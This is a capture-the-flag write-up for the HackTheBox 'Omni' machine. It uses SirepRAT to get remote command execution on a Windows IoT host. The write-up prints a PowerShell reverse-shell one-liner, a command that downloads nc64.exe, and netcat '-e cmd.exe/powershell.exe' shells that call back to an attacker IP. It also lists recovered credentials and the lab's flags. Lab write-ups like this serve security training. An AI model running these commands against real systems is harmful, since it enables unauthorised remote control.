




# Omni

Author: Ewaël

**Omni** is an easy HackTheBox box by egre55. I absolutly loved this box which was both original and interesting.

`nmap -sC -sV -oN nmap -v -A 10.10.10.204` shows ports 135 and 8080 are open. Let's start recon on 8080.



I try some basic SQL injection on the http authentification without success before intercepting the request with burp:



Playing with request I get the response header `WWW-Authenticate: Basic realm="Windows Device Portal"`. Googling a bit I find `Administrator:p@ssw0rd` as the default creds but no luck.

I also try to exploit the RPC with [impacket's script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py): `python rpcdump.py -p 135 10.10.10.204` but I do not know how to exploit the results and nothing obvious appears.

Coming back on port 8080 I assume the entry point deals with Internet of Things and I find [https://github.com/SafeBreach-Labs/SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT) to exploit it.

```
$ python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"
&ltHResultResult | type: 1, payload length: 4, HResult: 0x0>
&ltOutputStreamResult | type: 11, payload length: 6, payload peek: 'omni'>
&ltErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
```

It works! Let's dig in.

```
$ python2 /opt/SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\c
md.exe" --args " /c dir C:\\" --v
---------
 Volume in drive C is MainOS
 Volume Serial Number is 3C37-C677

 Directory of C:\

07/20/2020  02:36 AM    &ltDIR>          $Reconfig$
10/26/2018  11:35 PM    &ltJUNCTION>     Data [\??\Volume{ac55f613-7018-45c7-b1e9-7ddda60262fd}\]
10/26/2018  11:37 PM    &ltDIR>          Program Files
10/26/2018  11:38 PM    &ltDIR>          PROGRAMS
10/26/2018  11:37 PM    &ltDIR>          SystemData
10/26/2018  11:37 PM    &ltDIR>          Users
07/03/2020  10:35 PM    &ltDIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)     578,510,848 bytes free
```

Nothing in `C:\Users` but that weird `Data` could be the next step:

```
$ python2 /opt/SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c dir C:\Data\Users" --v
---------
 Volume in drive C is MainOS
 Volume Serial Number is 3C37-C677

 Directory of C:\Data\Users

07/04/2020  07:28 PM    &ltDIR>          .
07/04/2020  07:28 PM    &ltDIR>          ..
07/04/2020  09:48 PM    &ltDIR>          administrator
07/04/2020  09:53 PM    &ltDIR>          app
07/03/2020  11:22 PM    &ltDIR>          DefaultAccount
07/03/2020  11:22 PM    &ltDIR>          DevToolsUser
08/21/2020  01:55 PM    &ltDIR>          Public
07/04/2020  10:29 PM    &ltDIR>          System
               0 File(s)              0 bytes
               8 Dir(s)   4,691,722,240 bytes free
```

There it is.

```
$ python2 /opt/SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\c
md.exe" --args " /c type C:\Data\Users\administrator\root.txt" --v
---------
&ltObjs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  &ltObj RefId="0">
    &ltTN RefId="0">
      &ltT>System.Management.Automation.PSCredential&lt/T>
      &ltT>System.Object&lt/T>
    &lt/TN>
    &ltToString>System.Management.Automation.PSCredential&lt/ToString>
    &ltProps>
      &ltS N="UserName">flag&lt/S>
      &ltSS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb0100000011d9a9af9398c648be30a7dd764d1f3a000000000200000000001066000000010000200000004f4016524600b3914d83c0f88322cbed77ed3e3477dfdc9df1a2a5822021439b000000000e8000000002000020000000dd198d09b343e3b6fcb9900b77eb64372126aea207594bbe5bb76bf6ac5b57f4500000002e94c4a2d8f0079b37b33a75c6ca83efadabe077816aa2221ff887feb2aa08500f3cf8d8c5b445ba2815c5e9424926fca73fb4462a6a706406e3fc0d148b798c71052fc82db4c4be29ca8f78f0233464400000008537cfaacb6f689ea353aa5b44592cd4963acbf5c2418c31a49bb5c0e76fcc3692adc330a85e8d8d856b62f35d8692437c2f1b40ebbf5971cd260f738dada1a7&lt/SS>
    &lt/Props>
  &lt/Obj>
&lt/Objs>
```

Weird... Moreover `user.txt` has the same format:

```
$ python2 /opt/SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c type C:\Data\Users\app\user.txt" --v
---------
&ltObjs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  &ltObj RefId="0">
    &ltTN RefId="0">
      &ltT>System.Management.Automation.PSCredential&lt/T>
      &ltT>System.Object&lt/T>
    &lt/TN>
    &ltToString>System.Management.Automation.PSCredential&lt/ToString>
    &ltProps>
      &ltS N="UserName">flag&lt/S>
      &ltSS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009e131d78fe272140835db3caa288536400000000020000000000106600000001000020000000ca1d29ad4939e04e514d26b9706a29aa403cc131a863dc57d7d69ef398e0731a000000000e8000000002000020000000eec9b13a75b6fd2ea6fd955909f9927dc2e77d41b19adde3951ff936d4a68ed750000000c6cb131e1a37a21b8eef7c34c053d034a3bf86efebefd8ff075f4e1f8cc00ec156fe26b4303047cee7764912eb6f85ee34a386293e78226a766a0e5d7b745a84b8f839dacee4fe6ffb6bb1cb53146c6340000000e3a43dfe678e3c6fc196e434106f1207e25c3b3b0ea37bd9e779cdd92bd44be23aaea507b6cf2b614c7c2e71d211990af0986d008a36c133c36f4da2f9406ae7&lt/SS>
    &lt/Props>
  &lt/Obj>
&lt/Objs>
```

But there is some interesting stuff in `app` dir:

```
$ python2 /opt/SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c dir C:\Data\Users\app" --v
---------
 Volume in drive C is MainOS
 Volume Serial Number is 3C37-C677

 Directory of C:\Data\Users\app

07/04/2020  09:53 PM    &ltDIR>          .
07/04/2020  09:53 PM    &ltDIR>          ..
07/04/2020  07:28 PM    &ltDIR>          3D Objects
07/04/2020  07:28 PM    &ltDIR>          Documents
07/04/2020  07:28 PM    &ltDIR>          Downloads
07/04/2020  07:28 PM    &ltDIR>          Favorites
07/04/2020  08:20 PM                 344 hardening.txt
07/04/2020  08:14 PM               1,858 iot-admin.xml
07/04/2020  07:28 PM    &ltDIR>          Music
07/04/2020  07:28 PM    &ltDIR>          Pictures
07/04/2020  09:53 PM               1,958 user.txt
07/04/2020  07:28 PM    &ltDIR>          Videos
               3 File(s)           4,160 bytes
               9 Dir(s)    4,691,722,240 bytes free
```

And here is the `iot-admin.xml`:

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">omni\administrator</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009e131d78fe272140835db3caa28853640000000002000000000010660000000100002000000000855856bea37267a6f9b37f9ebad14e910d62feb252fdc98a48634d18ae4ebe000000000e80000000020000200000000648cd59a0cc43932e3382b5197a1928ce91e87321c0d3d785232371222f554830000000b6205d1abb57026bc339694e42094fd7ad366fe93cbdf1c8c8e72949f56d7e84e40b92e90df02d635088d789ae52c0d640000000403cfe531963fc59aa5e15115091f6daf994d1afb3c2643c945f2f4b8f15859703650f2747a60cf9e70b56b91cebfab773d0ca89a57553ea1040af3ea3085c27</SS>
    </Props>
  </Obj>
</Objs>
```

And access to `hardening.txt` is denied. First I try to decode those passwords following [https://stackoverflow.com/a/34077402/12476576](https://stackoverflow.com/a/34077402/12476576) and the [doc](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.psserializer.deserialize?view=powershellsdk-7.0.0) but I quickly understand deserializing is not the solution. Then I find the correct way googling a bit more [https://mlcsec.com/abusing-windows-credentials/#nico-to-tom](https://mlcsec.com/abusing-windows-credentials/#nico-to-tom):

```
$ python2 /opt/SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "powershell" --args "(Import-Clixml C:\Data\Users\app\iot-admin.xml).GetNetworkCredential().Password" --v
&ltHResultResult | type: 1, payload length: 4, HResult: 0x0>
```

No output... That would be easier with a proper shell. Let's use a one line powershell reverse shell so I can easily execute it with `sireRAT`.

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient(\"10.10.14.3\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The command is correctly executed but no shell. But I give it another try with:

```powershell
powershell IEX (New-Object Net.Invoke-WebRequest).DownloadString('http://10.10.14.3/revshell.ps1')
```

This time I have an error:

```
New-Object : Cannot find type [Net.Invoke-WebRequest]: verify that the
assembly containing this type is loaded.
At line:1 char:6
+ IEX (New-Object Net.Invoke-WebRequest).DownloadString('http://10.10.1 ...
+      ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidType: (:) [New-Object], PSArgumentExcepti
   on
    + FullyQualifiedErrorId : TypeNotFound,Microsoft.PowerShell.Commands.NewOb
   jectCommand
```

As supposed in [https://github.com/PowerShell/PowerShell/issues/2383#issuecomment-253301832](https://github.com/PowerShell/PowerShell/issues/2383#issuecomment-253301832) I use `Invoke-WebRequest` instead to upload my own `nc64.exe` instead of my powershell script.

```
$ python2 /opt/SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell Invoke-WebRequest -OutFile C:\Windows\System32\nc64.exe -Uri http://10.10.14.3/nc64.exe" --v

$ python2 /opt/SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\Windows\System32\nc64.exe 10.10.14.3 4444 -e cmd.exe" --v
```

Now that I have my shell I can start exploring a bit before continuing on the powershell commands.

```
PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> ls -force
ls -force


    Directory: C:\Program Files\WindowsPowerShell\Modules\PackageManagement


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/26/2018  11:37 PM                1.0.0.1
-a-h--        8/21/2020  12:56 PM            247 r.bat
```

This looks promising:

```bat
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

Finally some real creds! Now I have to decrypt the files being the same user that encrypted them. Those creds allow authentification on 8080.



Thus I can log as `app` and run a command from the panel:



```
C:\Windows\System32\nc64.exe 10.10.14.3 4444 -e powershell.exe
```

Then on target:

```
PS C:\data\users\app> (Import-Clixml user.txt).GetNetworkCredential().Password
```

User flag:

`7cfd50f6bc34db3204898f1505ad9d70`

Doing the same think with `administrator` creds gives the root flag:

`5dbdce5569e2c4708617c0ce6e9bf11d`
